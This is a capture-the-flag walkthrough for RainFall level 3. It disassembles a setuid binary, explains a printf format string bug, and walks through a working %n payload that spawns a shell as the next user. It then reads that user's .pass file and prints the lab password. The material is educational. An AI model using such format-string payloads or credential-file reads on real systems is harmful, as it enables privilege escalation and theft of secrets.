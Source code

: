 # Level 3

- We login as user level3:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

```
level3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3

level3@RainFall:~$ gdb level3
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
```

```
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x218,%esp
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    0x8049880,%eax
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```


- Let's identify the calls and jump:
```
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
```
>`0x8049860 <stdin@@GLIBC_2.0>: 0xb7fd1ac0`

>buffer size is 0x200 bytes

>buffer starts at `-0x208(%ebp)`

>>Prompt the user for up to 512 bytes.

```
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
```
>>Call `<printf@plt>` with our buffer as first parameter.

```
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
```
>`0x804988c <m>:  0x00000000`

>>After the call to `<printf@plt>`, compare the value located at `0x804988c` with the constant 0x40 (64 in decimal). If the two values differ, we `leave` and then `ret`, otherwise we continue.

```
   0x080484e4 <+64>:    mov    0x8049880,%eax
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
```
>`0x8049880 <stdout@@GLIBC_2.0>:  0xb7fd1a20`

>`0x8048600: "Wait what?!\n"`

>>Print `"Wait what?!\n"` into `<stdout>`.

```
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
```
>`0x804860d: "/bin/sh"`

>>Open a terminal.


- This exercice is an introduction to [format string exploit](https://axcheron.github.io/exploit-101-format-strings/).
The content of our buffer is used as first parameter of the `<printf@plt>` function, so we can read/write anything from/to the stack.
```
level3@RainFall:~$ echo -ne 'BBBB %x %x %x %x %x \n' | ./level3
BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520
```

```
level3@RainFall:~$ echo -ne 'BBBB %4$x \n' | ./level3
BBBB 42424242
```

```
level3@RainFall:~$ echo -ne '\x8c\x98\x04\x08 %4$x \n' | ./level3
 804988c
```


- With `<printf@plt>`, `%x` allows us to display a hexadecimal value, and `%n` allows us to assign a value to an address that corresponds to the number of characters written so far, so:
```
level3@RainFall:~$ gdb level3
...
(gdb) b*0x080484df
```

```
(gdb) r < <(echo -ne '\x8c\x98\x04\x08 %4$n \n')
...
(gdb) x/d 0x804988c
0x804988c <m>:  5
```

```
(gdb) r < <(echo -ne '\x8c\x98\x04\x08 %58x %4$n \n')
...
(gdb) x/d 0x804988c
0x804988c <m>:  64
```

```
level3@RainFall:~$ (echo -ne '\x8c\x98\x04\x08 %58x %4$n \n'; cat) | ./level3
...
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```